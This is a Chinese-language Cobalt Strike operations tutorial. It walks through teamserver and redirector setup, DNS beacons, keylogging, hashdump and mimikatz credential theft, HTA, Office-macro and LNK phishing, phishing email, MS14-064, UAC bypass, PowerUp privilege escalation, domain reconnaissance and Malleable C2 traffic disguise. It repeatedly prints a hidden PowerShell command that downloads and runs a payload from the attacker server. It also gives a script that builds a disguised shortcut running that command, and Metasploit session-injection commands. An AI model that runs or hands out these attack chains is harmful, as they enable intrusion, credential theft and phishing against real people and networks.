# 一、配置与基本操作

## CobaltStrike简介

Cobalt Strike: C/S架构的商业渗透软件，适合多人进行团队协作，可模拟APT做模拟对抗，进行内网渗透。

Cobalt Strike 一款GUI的框架式渗透工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等。


## 服务端与客户端的配置

首先将下载好的CS文件解压至linux系统(此处我以kali linux为例), 切换至CS文件夹目录打开终端, 输出如下命令用于搭建CS服务器

```
./teamserver 192.168.47.134 qq123456
```

> 命令格式: `teamserver <服务端ip地址> <CS服务端密码>`
>
> CS服务端的监听端口默认为50050, 若想更改监听端口可通过修改teamserver文件

	


切换至Windows虚拟机点击`start.bat`文件运行CS客户端界面, 并且输入: CS的服务器IP(192.168.47.134)、监听端口(50050)、自定义用户名、CS服务端密码(qq123456), 随后出现CS客户端界面

	


## 基本操作	

首先新建个监听器, 设置监听的端口和payload, 此处payload我选择`Beacon HTTP`


选择相应的监听来创建后门程序, 此处创建的是一个可执行程序后门

	


将生成的后门程序放入受害机中并运行, 随后受害机会在CS客户端显示上线	




# 二、重定向服务

## 重定向服务的概念

"重定向"是一个在CS服务器与目标主机进行网络传输之间的服务器, 不仅能保护CS服务器, 还能增强与目标网络传输的稳定性, 例如某一台重定向服务器倒塌了, 但是CS服务器还是能通过其他重定向服务器与目标网络进行信息传输


## 环境拓扑

- **域名:** team.com
- **Dns服务器:** 192.168.47.137
- **CS团队服务器:** 192.168.47.134(cs.team.com)
- **重定向服务器1:** 192.168.47.131(proxy1.team.com)
- **重定向服务器2:** 192.168.47.140(proxy2.team.com)
- **目标主机:** 192.168.47.141

	


## 环境搭建

### 1.在域控为CS服务器及代理服务器配置域名

在域控服务器打开DNS管理器

	


在DNS的正向查找区域新建一个区域, 名为`team.com`, 即相当于申请一个顶级域名


为新建的区域增添A记录, 如下图所示步骤依次添加CS服务器及代理服务器

- CS服务器: 别名为`CS`, ip地址为`192.168.47.134`

- 代理服务器1: 别名为`proxy1`, ip地址为`192.168.47.131`
- 代理服务器2: 别名为`proxy2`, ip地址为`192.168.47.140`

	

	


### 2.将代理服务器80端口的数据转发到CS服务器80端口上

使用`socat`命令进行端口转发, 若没有此命令需先使用`apt-get install -y socat`命令进行安装, `socat`命令使用语法如下:

```
socat TCP4-LISTEN:80，fork TCP4:[server ip]:80
```

> 将本机80端口监听到的数据转发到server服务器上的80端口


在两台代理服务器(ubuntu0和ubuntu1)上输入: `socat TCP4-LISTEN:80,fork TCP4:192.168.47.134:80`	


## 攻击步骤

### 1.在CS客户端创建监听并生成攻击payload

在域内windows7主机登录CS客户端

	


新建http监听80端口, 将代理的服务器域名填写至HTTP Hosts

	


生成Power Shell远程执行代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`


​	

浏览器访问`http://proxy1.team.com:80/a`和`http://proxy2.team.com:80/a`, 查看是否有返回结果, 若有则表示攻击payload配置成功

	


通过查看web日志可以查询到访问域名者的详细信息




### 2.受害机执行PowerShell恶意代码

在受害机执行powershell恶意代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`后, 受害机在CS客户端界面显示上线

	


## 受害机抓包分析

使用Wireshark抓取HTTP数据包进行分析, 受害机的ip地址为`192.168.47.141`, 它向`192.168.47.140`(proxy2.team.com)发http数据包, 随后`192.168.47.140`向`192.168.47.134`(cs.team.com)发http数据包, 除此之外受害机还向`192.168.47.131`(proxy1.team.com)发了http数据包


# 三、DNS Beacon

## DNS隧道简介

利用DNS隧道进行攻击的现象已存在多年，将数据封装在DNS协议中传输，大部分防火墙和入侵检测设备很少会过滤DNS流量，僵尸网络和入侵攻击可几乎无限制地加以利用，实现诸如远控、文件传输等操作

DNS隐蔽隧道建立通讯并盗取数据，可轻易绕过传统安全产品，使用特征技术难以检测。广为人知的渗透商业软件Cobalt Strike和开源软件iodine、DNScat2等亦提供了现成模块，可被快速轻易地利用。


## DNS Beacon通信过程

	

1. 目标主机要对域名`123456.c1.henry666.xyz`进行解析, 首先查询本地的hosts文件, 若没有返回则从本地DNS服务器查询
2. 本地DNS服务器首先查询自己的本地缓存, 若没有则进行迭代查询, 会向根域名服务器发起询问, 问你知道`123456.c1.henry666.xyz`吗, 然而根域名服务器说"我不知道,但是`.com`服务器可能会知道"
3. 本地DNS服务器去问`.com`服务器, `.com`服务器说:"我也不知道, `henry666.xyz`服务器知道"
4. 本地DNS服务器去问`henry666.xyz`服务器, 它的回答是:"不知道,你去问`c1.henry666.xyz`服务器"
5. 最终本地DNS服务器访问了`c1.henry666.xyz`的DNS服务器`cs.henry666.xyz` , 并查询到了`123456.c1.henry666.xyz`的响应值, 随后`c1.henry666.xyz`服务器将响应值返回给本地DNS服务器, 本地DNS服务器再返回给目标主机


## DNS Beacon的类型

### 1.dns(传输数据小)

使用==DNS的A记录==作为通信通道,这种方式的通信速度会比较慢, 且传输数据也有限制

可在beacon命令行输入: `mode dns` 进行切换


### 2.dns_txt(传输数据大)

使用==DNS的TXT记录==作为通信通道, 这种传输方式的优点在于传输的数据量更加庞大, 在CS4.0及未来版本都只有DNS TXT记录这一选项

可在beacon命令行输入: `mode dns-txt` 进行切换


### 3.dns6

使用==DNS的AAAA记录==作为通信通道

可在beacon命令行输入: `mode dns6` 进行切换


## 操作步骤

### 1.设置域名解析

此处我的域名是在godaddy上购买的, 为henry666.xyz, 在DNS解析管理处设置域名解析, 新增一条A记录和NS记录

- A记录: cs.henry666.xyz指向180.76.55.245
- NS记录: c1.henry666.xyz指向cs.henry666.xyz

	


### 2.vps开放udp协议的53端口

在云服务VPS的安全组的入站和出站都添加一组规则, 开放UDP协议的53端口, 这步骤十分重要

		


查看云服务器的53端口是否被占用: `lsof -i:53`, 发现被一个叫`systemd-resolve`的系统服务所占用, 关闭此服务: `systemctl stop systemd-resolved`


### 3.CS创建监听

在CS客户端新建一个监听, Payload选择Beacon Dns, DNS Hosts和DNS Host(Stager)填写NS记录的域名, 至于DNS端口绑定处填不填都行, 这里我就没填了

> 很多文章喜欢在DNS Hosts(Stager)处填写A记录域名, 实际上这里只需在上面的DNS Hosts里随便挑一个填写就可以了
>
> 还有一点是, CS里的DNS Beacon默认类型是DNS-txt

	


接下来验证一下新建的ns记录是否生效: `nslookup c1.henry666.xyz`, 有非权威应答代表ns记录生效

	


### 4.CS创建后门

点击菜单栏的`Attacks->Web-Drive-by->Scripted Web Delivery(S)`, 监听器选择刚刚创建的DNS, 生成带有执行后门程序的powershell代码, 并将此代码放到目标主机中执行

	




后门代码在目标主机执行成功后, CS会接收到反弹的Shell, 但默认情况下, 此主机图标显示是黑色的, 且无任何信息

这时就要在beacon命令行输入: `checkin`, 强制让目标主机回连CS服务器, 随后主机信息就会显现出来


在beacon命令行输入: `mode dns` , 切换使用dns的a记录进行数据通信



​	

### 5.派生HTTP Beacon

由于DNS隧道不适合传输过大的数据且传输速率慢,因此我们可以派生一个HTTP Beacon, 这样做的好处是加快了数据的传输速率, 即使http后门进程被目标系统关闭了, 也可以通过dns beacon继续创建后门进程




## 抓包分析	

首先查看目标主机的本地DNS服务器及IP, 在cmd命令行输入: `ipconfig /all`

	


在目标主机打开wireshark进行抓包, 可发现本机向本地DNS服务器发送DNS协议A记录的数据包, 从上述的DNS Beacon通信过程中可知, 该数据包内容是目标主机向本地DNS服务器查询`c1.henry666.xyz`, 最终经过层层的迭代查询, 数据流向cs服务器


## 参考文章

- https://www.yisu.com/zixun/501167.html
- https://www.codenong.com/cs106885517/

​		

# 四、Beacon常用操作	

## Beacon的种类

### HTTP Beacon

这是一种“低延迟”载荷，它利用HTTP协议进行通信，能够发送命令、上传文件和下载输出。其特点是能够在不同的环境中进行自定义，包括URI路径、请求间隔、请求方式（GET或POST）、数据编码方式等。HTTP Beacon的通信数据并不加密，而是通过数据编码方式（如base64）进行隐藏


### HTTPS Beacon

TTPS Beacon与HTTP Beacon相似，不过它使用的是HTTPS协议，也就是说，它的通信数据是加密的。HTTPS Beacon在网络流量的可视性方面比HTTP Beacon更加隐蔽


### TCP Beacon

自CS4.0版本之后只有反向的TCP Beacon可用, 基于TCP协议的通信方式


### SMB Beacon

SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。

因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效


在CS会话列表选择一个beacon作为父beacon, 然后派生一个SMB Beacon作为子Beacon: `Beacon>目标主机>右键> spawn as>选中对应的Listener`, 随后会话列表显示SMB Beacon


若想将两个beacon断开链接, 可在父级Beacon执行`unlink 目标IP`命令, 随后在CS视图界面可以发现两个beacon已经断开链接

	

	


若想重新链接可在父级Beacon执行`link 目标IP`命令

	

		


### DNS Beacon

DNS Beacon是实用性最强的Beacon, 隐蔽性高, 后续我会单独出一篇文章来详解它的原理和使用


## beacon常用命令

| beacon命令        | 描述                                     |
| ----------------- | ---------------------------------------- |
| cancel            | 取消正在进行的下载                       |
| cd                | 切换目录                                 |
| clear             | 清空beacon的任务                         |
| connect           | beacon会话连接                           |
| cp                | 复制文件                                 |
| desktop           | 远程VNC(桌面)                            |
| download          | 下载文件                                 |
| downloads         | 列出正在下载的文件                       |
| elevate           | 尝试提权                                 |
| exit              | 退出beacon                               |
| getsystem         | 尝试获取system权限                       |
| getuid            | 获取用户id                               |
| hashdump          | 转储密码哈希值                           |
| help              | 查询帮助                                 |
| jobkill           | 删除一个beacon任务                       |
| jobs              | 列出beacon任务                           |
| keylogger         | 键盘记录                                 |
| kill              | 结束进程                                 |
| ls                | 列出当前目录的所有文件                   |
| mimikatz          | 运行mimikatz                             |
| mkdir             | 创建一个目录                             |
| mode dns          | 使用Dns A作为通信通道(仅限 DNS Beacon)   |
| mode dns-txt      | 使用DNS TXT作为通信通道(仅限 DNS Beacon) |
| mode dns6         | 使用DNS 6作为通信通道(仅限 DNS Beacon)   |
| mv                | 移动文件                                 |
| portscan          | 端口扫描                                 |
| ps                | 列出进程列表                             |
| powershell        | 执行powershell命令                       |
| powershell-import | 导入powershell脚本                       |
| net               | 执行net命令                              |
| pwd               | 列出当前                                 |


## 常用攻击模块

### 设置通信延时

例如此处设置CS服务器与受害机每隔30秒进行一次通信


### 键盘记录	

在受害机的beacon命令行输入: `keylogger`

	


在受害机随便敲下键盘, 返回CS客户端查看其键盘记录


若想关闭查看键盘记录,可使用`jobs`和`jobkill`命令进行关闭, 先使用`jobs`命令查看beacon任务列表, 然后用`jobkill`命令关闭对应JID的任务

	


### 文件管理

对受害机的文件进行相应操作, 不过有些特殊文件可能需要更高级别的权限才能操作




### 查看系统进程




### 端口扫描			

选择要扫描的端口、ip网段、扫描模式

	


beacon命令行返回ip网段存活主机以及其开放的端口

	

	


### 远程桌面

远程VNC即查看受害机的远程桌面




# 五、会话管理	

## CS之间派生会话

将CS1管理的会话派生至CS2中, 简单来说就是将CS1服务器的肉鸡送给CS2服务器


### 准备环境

| 主机                     | 描述            |
| ------------------------ | --------------- |
| Kali(192.168.47.134)     | CS TeamServer1  |
| Kali2(192.168.47.144)    | CS TeamServer2  |
| Windows7(192.168.47.133) | CS客户端,攻击机 |
| Windows7(192.168.47.141) | 受害机          |


### 操作步骤

首先用CS客户端连接两个不同的CS服务器, 而我们要做的是将CS1的会话派生到CS2中去


在CS2服务器和CS1服务器都新建一个同样配置的监听用于接收派生过来的会话, 监听的host地址要填写为CS2服务器ip地址




派生会话选择上述建立的监听, 随后切换至连接CS2服务器的客户端查看派生过来的主机

	

		


## CS派生会话至metasploit			

将CS服务器的会话派生至metasploit中, 方便进行漏洞攻击


### 准备环境

| 主机                     | 描述            |
| ------------------------ | --------------- |
| Kali(192.168.47.134)     | CS TeamServer1  |
| Kali2(192.168.47.144)    | metasploit      |
| Windows7(192.168.47.133) | CS客户端,攻击机 |
| Windows7(192.168.47.141) | 受害机          |


### 操作步骤

进入kali2输入命令:`msfconsole`, 运行metasploit

	


metasploit新建监听用于接收CS派生过来的会话	



​	

返回至CS服务器建立外部监听, payload选择Foreign HTTP, 其余内容与metasploit建立的监听一致

	


派生会话选择上述建立的外部监听t, 然后返回Metasploit查看上线情况


​	

## metasploit派生会话至CS

将metasploit管理的会话派生至CS服务器


### 准备环境

| 主机                     | 描述            |
| ------------------------ | --------------- |
| Kali(192.168.47.134)     | CS TeamServer1  |
| Kali2(192.168.47.144)    | metasploit      |
| Windows7(192.168.47.133) | CS客户端,攻击机 |
| Windows7(192.168.47.141) | 受害机          |


### 操作步骤

首先查看MSF中需派生会话的ID, 输入命令: `sessions`, 此处要派生的会话ID为6 (下面的截图截错了)




输入如下命令进行派生会话, 派生完成后返回会话的进程PID为3322

```
use exploit/windows/local/payload_inject  

set payload windows/meterpreter/reverse_http

set lhost 192.168.47.134

set lport 80

set disablepayloadhandler True  //默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true

set session 6

exploit
```


​	

返回CS查看上线的会话 (PID:3332)


​	

# 六、钓鱼攻击

## HTA木马

### 简介

HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件。HTA虽然用HTML、JS和CSS编写，却比普通网页权限大得多，它具有桌面程序的所有权限。就是一个html应用程序，双击就能运行

HTA木马一般配合网站克隆进行钓鱼攻击


### 步骤

生成HTML后门(HTA文件), 选择相应的监听器和模式,有三种模式,分别为`Powershell`、`VBA`、`Executable`

> Executable 将会在hta文件中内嵌一个PE文件
> Powershell 将会在hta文件中内嵌一段Powershell代码
> VBA 将会在hta文件中内嵌一段VBA代码

	

			

	


将hta木马上传至服务器提供给用户下载, 返回木马的url路径


	


自行选择一个网站进行克隆, 并在attack选项处选择上传的HTA木马, 随后返回的钓鱼链接`http://192.168.47.134:80/`

	



​		

受害机用浏览器访问钓鱼链接后, 网站会咨询用户是否下载木马文件, 若用户下载且运行, 则用户在CS上线	



​	

## Office宏木马

### 简介

office钓鱼在无需交互、用户无感知的情况下，执行Office文档中内嵌的一段恶意代码，从远控地址中下载并运行恶意可执行程序，例如远控木马或者勒索病毒等。Cobalt Strike office钓鱼主要方法是生成一段vba代码，然后将代码复制到office套件中，当用户启动office自动运行


### 步骤

首先安装wps的宏插件, 不然无法在wps文档插入宏代码

	


在攻击选项选择`MS Office Macro`生成恶意宏代码

	

	


打开新建的doc文档, 在开发工具栏点击宏选项, 新建一个宏			

	

将CS生成的宏代码复制至文档中, 然后将文件类型保存为docm类型	

	

	

​	

## LINK钓鱼

### 简介

lnk文件是用于指向其他文件的一种文件。这些文件通常称为快捷方式文件，通常它以快捷方式放在硬盘上，以方便使用者快速的调用。lnk钓鱼主要将图标伪装成正常图标，但是目标会执行shell命令

例如创建一个简单的powershell文件, 先创建一个txt文件, 并对其写入如下代码, 随后将其后缀名改为ps1, 右键单击此文件选择powershell执行, 运行后会弹出计算器

```
cmd /c calc.exe
```

	


### 步骤

选择`钓鱼攻击>Scripted Web Delivery`, 生成PowerShell远程执行代码

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

	

	


按照上面做的简单powershell步骤,将其内容里的calc.exe换成powershell代码, 保存为test.txt文件 

```
cmd /c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

	


创建LNK.ps1文件, 将如下代码写入进去, 然后右键powershell执行后, 会在文件当前目录下生成test.lnk文件

若受害机运行了test.lnk文件, 则在CS上线

> 注意:LNK.ps1和test.txt要在同一目录下

```powershell
# 从 "test.txt" 文件中获取内容，并将该内容存储在变量 $file 中
$file = Get-Content "test.txt"

# 创建一个 COM 对象，该对象对应于 Windows Script Host Shell，可以用来执行各种系统任务，例如创建快捷方式
$WshShell = New-Object -comObject WScript.Shell

# 使用 WSH Shell 的 `CreateShortcut` 方法创建一个快捷方式，该快捷方式的名称是 "test.lnk"
$Shortcut = $WshShell.CreateShortcut("test.lnk")

# 设置快捷方式的目标路径，也就是快捷方式所指向的程序。这里设置的是 cmd.exe，它是 Windows 的命令提示符
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"

# 设置快捷方式的图标位置。这里设置的是 Shell32.dll 文件中的第 21 个图标
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"

# 设置当启动目标程序时要传递给它的命令行参数。这里设置的是 "test.txt" 文件的内容
$Shortcut.Arguments = ''+ $file

# 保存对快捷方式的所有更改，创建了实际的 ".lnk" 文件
$Shortcut.Save()
```

​		

## OLE远程代码执行(MS14-064)

### 简介

Microsoft Windows OLE 远程代码执行漏洞，影响Win95+IE3 - Win10+IE11全版本

通过MSF生成恶意url连接, 配合CS克隆网站进行钓鱼攻击, 然后受害机在CS上线


### 准备环境

| 主机                 | 描述            |
| -------------------- | --------------- |
| 192.168.47.134(kali) | CS服务器        |
| 192.168.47.144(kali) | MSF             |
| 192.168.47.133(win7) | CS客户端,攻击机 |
| 192.168.47.141(win7) | 受害机          |


### 步骤	

在kali上输入`msfconsole`打开metasploit, 再输入`use exploit/windows/browser/ms14_064_ole_code_execution`选择相应模块

然后输入如下命令开始执行攻击, 随后会返回一个url钓鱼连接:`http://192.168.47.144:8080/lCKUuRHyz1`

```
set srvhost 192.168.47.144 //设置msf服务器的ip

set srvport 8080  //设置恶意连接的访问端口

set payload windows/meterpreter/reverse_http  //设置监听协议

set allowpowershellprompt true  //使用powershell执行代码

set lhost 192.168.47.134  //设置监听服务器的ip

set lport 80  //设置监听服务器的端口

run  //开始执行
```




在CS生成克隆网站, 攻击选项处填写刚生成的url钓鱼链接, 生成的克隆网站链接为`http://192.168.47.134:80/baidu`

	

	


受害机访问克隆网站后会弹出警告框, 询问你是否允许执行powershell, 若点击允许则在CS成功上线

	




## 钓鱼邮件	

### 简介

利用Cobalt Strike生成钓鱼邮件对企业或者网站的邮箱进行攻击, 钓鱼邮件的内容通常包含Office宏木马附件, 钓鱼网站等等

Cobalt Strike钓鱼邮件攻击需确定如下信息:

- 目标邮箱
- 邮件模板
- smtp账号


### 步骤

首先确保你邮箱开启了SMTP服务,这里我以163邮箱为例, 需开启`POP3/SMTP`服务

	


开启了smtp服务后会自动生成一个授权密码, 在后面CS填写smtp信息会用到	


在网页邮箱可以查看邮件的模板, 将模板内容保存至`Mail Template.txt`文件

	

	


将目标邮箱以及收件人的信息保存在Mail.txt文件, 注意这两者之间相隔一个tab键的距离

	


CS攻击选择邮件钓鱼

	


填写钓鱼攻击所需的信息,在Mail Server的密码框要填写上面开启SMTP服务所生成的授权密码, 填写完毕后点击Send发送邮件

		

> Targets:存有目标邮箱及收件人信息的文本文件
>
> Template:邮件模板文件
>
> Attachment:附件
>
> Embed URL:填写url钓鱼链接, 可将邮件的内置链接替换掉。此处我填写了带有键盘记录功能的克隆网站
>
> Mail Server: 邮箱服务器相关信息
>
> Bounce to:邮箱地址


接收到的钓鱼邮件显示的发件人是和原邮件一模一样的，且邮件的链接都被替换成了钓鱼链接

	


点击链接跳转至钓鱼页面，在输入框输入内容会被传输至CS服务器，可在CS客户端打开Web日志进行查看键盘记录



	

​		

# 七、权限提升

## Uac绕过

### 常见uac攻击模块

#### UAC-DLL

UAC-DLL攻击模块允许攻击者从低权限的本地管理员账户获得更高的权限。这种攻击利用UAC的漏洞，将ArtifactKit生成的恶意DLL复制到需要特权的位置。

适用于Windows7和Windows8及更高版本的未修补版本


#### Uac-token-duplication

此攻击模块也是为了从低权限的本地管理员账户获得更高的权限。它通过利用UAC漏洞，使非提升进程可以窃取并使用在提升进程中的令牌。这样，它可以启动任何进程。为了成功执行此攻击，攻击者必须删除提升令牌中分配的多个权限。如果“AlwaysNotify”设置为最高，则此攻击需要提升的进程已经在当前的桌面会话中运行，之后攻击者可以利用PowerShell生成新的会话。

主要适用于Windows7和Windows8及更高版本


#### Uac-wscript

这种UAC绕过技术最初是在Empire框架中被公之于众的。它特定地只适用于Windows 7系统


### 使用步骤

进入用户beacon命令行, 输入`shell whoami  `查看当前用户

再输入`net user`查看当前所有用户及其所在组, 可以发现当前用户hacker处于管理员组, 因此可使用bypassuac提权

	


对用户鼠标右键, 选择提权	




选择相应的监听器和uac提权模块,然后点击开始

	

​		

提权后会返回一个新的beacon, 可以发现其用户名为`hacker*`，则表示已提升至管理员权限




## Windows本地提权漏洞

### 漏洞描述

`ms14-058`、`ms15-051`和`ms16-016`都是微软Windows的本地提权漏洞。以下是对它们的简要概述：

| 漏洞标识 | CVE-ID                        | 描述                                                       | 受影响的系统                                                 |
| -------- | ----------------------------- | ---------------------------------------------------------- | ------------------------------------------------------------ |
| ms14-058 | CVE-2014-4113 & CVE-2014-4148 | Windows内核模式驱动器提权漏洞, 允许执行任意代码            | Windows Vista 至 Windows 8.1, Windows Server 2008 至 Windows Server 2012 R2 |
| ms15-051 | CVE-2015-1701                 | Win32k.sys内的提权漏洞, 允许在系统上获得提高的权限         | Windows 7 至 Windows 8.1, Windows Server 2008 R2 至 Windows Server 2012 R2 |
| ms16-016 | CVE-2016-0051                 | 微软WebDAV客户端中的提权漏洞, 允许在受影响的系统上提升权限 | Windows 7 至 Windows 10, Windows Server 2008 R2 至 Windows Server 2012 R2 |


### 执行步骤

鼠标右键点击用户->执行->提权




由于CS自带的windows本地提权模块只有ms14-058, 这里我是使用了扩展插件的, 提权成功后用户权限会被提升至System权限		

	


## PowerUp提权

### 简介

**PowerUp** 是一款常用于渗透测试和红队评估的Windows本地提权辅助工具。它是由`PowerShell Empire`项目团队开发的，并被集成到了多个其他框架中。PowerUp主要是用于检测常见的Windows配置错误，这些错误可能使攻击者进行本地提权。

以下是对PowerUp的简要描述：


### 使用步骤

beacon命令行输入`powershell-import`, 然后选择本地文件PowerUp.ps1

	


输入`powershell Invoke-AllChecks`, PowerShell脚本会快速帮我们扫描系统的弱点, 此处扫描出一个正在运行的服务: `Protect_2345Explorer.exe`

	


查看此服务的权限情况: `shell icacls "C:\Program Files (x86)\2345Soft\2345Explorer\Protect\Protect_2345Explorer.exe"` , 发现User组的用户对此服务拥有完全控制的权限			


> F表示此用户拥有完全控制的权限
>
> RX表示此用户没有权限	


添加系统用户: `powershell Install-ServiceBinary -ServiceName Protect_2345Explorer -UserName test2 -Password 123456`

然后再查看当前所有用户及其组: `net user`

	


让新建的系统用户上线: 执行->Spawn As, 然后输入用户的账号与密码, 随后CS显示test2上线

> Domain输入`.`表示当前计算机


	




# 八、凭据导出与存储	

## 简介

Cobalt Strike 是一个流行的渗透测试工具，主要用于模拟高级持续性威胁（APT）的攻击。它提供了许多功能来操作、持久化和操纵受害者机器。其中，凭据的导出和存储是渗透测试中的一个重要步骤。

1. **凭据导出**:

   Cobalt Strike 通过其 Beacon 负载提供多种方式来获得系统和网络凭据：

   - `mimikatz`：Cobalt Strike 可以通过执行 Mimikatz 来从内存中提取凭据。Mimikatz 是一个广泛使用的工具，可以从 Windows 认证过程中提取明文密码、哈希、PIN 码和票据。
   - `hashdump`：这个命令从 SAM 数据库中提取 NTLM 哈希值。
   - `kerberos_ticket_use` 和 `kerberos_ticket_purge`：用于操作 Kerberos 凭据。

2. **凭据存储**:

   当 Cobalt Strike Beacon 提取了凭据后，它们通常被发送回攻击者的控制服务器，然后在 Cobalt Strike 的操作界面中进行显示。

   - 控制面板：在 Cobalt Strike 的 GUI 中，你可以看到一个 "Credentials" 标签，其中列出了所有收集到的凭据。
   - 数据存储：Cobalt Strike 使用的是一个内部数据结构来存储和管理从目标系统收集到的凭据。对于持久化存储或备份，操作者需要导出这些数据或使用 Cobalt Strike 提供的报告功能来生成持久化的记录。


## 导出凭据

### HashDump导出凭据	

鼠标右键单击用户->执行->转储Hash, 或者beacon命令行输入:`hashdump`

随后beacon命令行会返回用户组的账号与密码



	


### Mimikatz导出凭据

鼠标右键单击用户->执行->Run Mimikatz, 或者或者beacon命令行输入:`logonpasswords`

	

随后返回用户组的账号和密码

	

​	

## 存储凭据

点击右上角的工具栏名为凭证信息的图标, 随后下方会显示不同计算机以及对应的用户组账号和密码


# 九、简单的内网信息收集

## 收集域内信息

### Windows命令

查看网关的ip地址, DNS的ip地址、域名等等：`shell ipconfig /all`

		

​	

查看当前主机所在的域: `shell net view /domain`

	

​	

查看当前域的主机列表: `shell net view`

	


查看指定域的主机列表: `shell net view /domain:[domain]`	

		


若beacon用户是域控, 则可使用此命令查看当前域的主机列表: `shell net group "domain computers" /domain`

	


查看指定域的域控: `nltest /dclist:[domain]` 

若上面的命令不能执行就换这条: `shell c:\windows\sysnative\nltest /dclist:[domain]`

	


查看域内主机的ip地址:`shell nslookup [主机名]` 或`ping -n 1 -4 [主机名]`		

	

	


查看当前域的信任关系: `nltest /domain_trusts` 

	


### CS自带命令

列出当前域的域控: `net dclist`

列出指定域的域控: `net dclist [domain`]

	


列出当前域控的主机列表: `net view`

列出指定域控的主机: `net view [domain]`	

	

​	

列出指定主机名的共享列表: `net share \\[主机名]`	



​		

## 获取域内用户和管理员信息

### 查询本地管理员账号

判断当前用户是否属于管理员组: `shell whoami/groups`




查询本地管理员组的用户: `shell net localgroup administrators`

	

​	

### 查询域管理员账号

查询所有域的用户列表: `shell net user /domain`

	

​	

查询域管理员用户: `shell net group "domain admins" /domain` 		

	


查询企业管理员用户列表: `shell net group "enterprise admins" /domain`

	


# 十、Profile文件编写

## 简介

在网络渗透测试和红队模拟攻击中，隐藏命令与控制（C2）流量的特征对于成功绕过入侵检测系统至关重要。Cobalt Strike提供了一个强大的工具——Malleable C2 profiles，用于自定义C2流量，从而使其看起来像正常的网络流量。下面我们就一起来学习如何使用和自定义这些profile


## 基础概念

1. **全局选项**：这是一些设置C2服务器的基本参数的选项，比如设置使用的SSL证书文件，设置服务器端口等。
2. **http-stager**：这部分设置用于控制使用HTTP或HTTPS协议的stager的行为。比如，可以设置User-Agent、URI、POST请求的数据格式等。
3. **http-get**：这部分设置用于控制Beacon从C2服务器获取任务时发送的HTTP GET请求的格式。
4. **http-post**：这部分设置用于控制Beacon向C2服务器发送数据时发送的HTTP POST请求的格式。
5. **metadata**：这部分设置用于控制Beacon和C2服务器交换的元数据的格式。


## 基础使用流程

### 1.创建Profile文件

首先，需要创建一个新的Malleable C2 profile文件，或者修改一个已经存在的profile文件。这个文件是一个纯文本文件，可以使用任何文本编辑器来编辑。一个基本的Profile文件结构如下：

```apl
set keystore "/root/cobaltstrike.store";

http-stager {
    set uri "/download";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-get {
    set uri "/search";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-post {
    set uri "/submit";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-malleable {
    set uri "/data";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}
```

 

### 2.检验profile文件

profile文件编写完成后，可使用CobaltStrike自带的c2lint来验证profile文件是否正确配置，执行如下命令：

```
./c2lint <profile_file>
```




如下图所示即为profile文件配置成功



​	

### 3.加载Profile文件

在启动Cobalt Strike team server时，可执行如下命令指定Malleable C2 profile文件

```
./teamserver [yourip] [password] ./myprofile.profile
```

其中，[yourip]和[password]是你的C2服务器的IP地址和密码，myprofile.profile是你的Malleable C2 profile文件的路径


### 4.生成并部署beacon

在Cobalt Strike中，例如你可以使用"Attacks"->"Packages"->"Windows Executable (S)"菜单项来生成包含了你的Malleable C2 profile的Beacon。然后，你可以将这个Beacon部署到你的目标机器上


## 常用关键字

### 数据编码方式

以下表格是一些CobaltStrike在profile配置中用于数据编码的常用关键字，你可以根据需要组合使用这些关键字，来实现对数据的编码、附加额外字符串等操作

例如，你可以选择先使用base64编码，然后再添加一个特定的字符串，以此来创建更复杂的数据编码模式

| 声明方式         | 编码方式                                                     |
| ---------------- | ------------------------------------------------------------ |
| append "string"  | 将指定字符串附加在末尾                                       |
| base64           | 使用Base64编码                                               |
| base64url        | 一种变异的Base64编码，编码后的数据不会含有可能破坏URL完整性的字符，如"+"、"/"等 |
| mask             | 使用XOR编码，key是随机的                                     |
| netbios          | 使用NetBIOS编码，产生的编码字符为小写 ('a'-'p')              |
| netbiosu         | 使用NetBIOS编码，产生的编码字符为大写 ('A'-'P')              |
| prepend "string" | 将指定字符串附加在头部                                       |
| print            | 用于将输入打印为字符串，通常用于输出操作中                   |
| strrep "s1" "s2" | 将字符串中所有的s1替换为s2                                   |
| netbios_decode   | 对数据进行NetBIOS解码                                        |
| base64_decode    | 对数据进行Base64解码                                         |
| mask_decode      | 对使用随机key进行XOR编码的数据进行解码                       |


### Strings转义字符

以下是可在profile文件中使用的转义字符：

| **值**   | **含义**                                            |
| -------- | --------------------------------------------------- |
| "\n"     | 换行符                                              |
| "\r"     | 回车                                                |
| "\t"     | tab键                                               |
| "\u####" | 表示一个unicode字符                                 |
| "\x##"   | 十六进制（shellcode知道吧就是那东西的写法\x90\x90） |


